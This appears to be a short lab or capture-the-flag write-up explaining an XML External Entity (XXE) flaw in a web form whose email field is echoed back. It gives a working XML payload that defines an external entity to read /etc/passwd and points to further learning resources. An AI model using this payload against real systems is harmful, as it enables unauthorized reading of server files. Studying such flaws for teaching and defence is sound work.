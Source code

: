 XML External Entity (XXE) occurs when XML external entities are interpreted incorrectly, allowing an attacker to perform SSRF, LFI, DOS, and in extreme cases, run system commands.

Since the form is being sent as an XML and the email address is being echoed back in the page, you can inject an external entity. The entity should echo back in the email address if the system is vulnerable to XXE. In this case, it is, the below XML is the solution

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY iwantthisfilenow SYSTEM "file:///etc/passwd">]>
<root>
<firstname>john</firstname>
<phonenumber>0000</phonenumber>
<emailadd>&iwantthisfilenow;</emailadd>
</root>
```

<h3>Futher reading</h3>

To learn more about how this vulnerability is exploited, I would recommend the burp suite web academy. The first few exercises are like this one, but the later exercises show how XXE can be used to perform attacks like SSRF.

https://portswigger.net/web-security/xxe
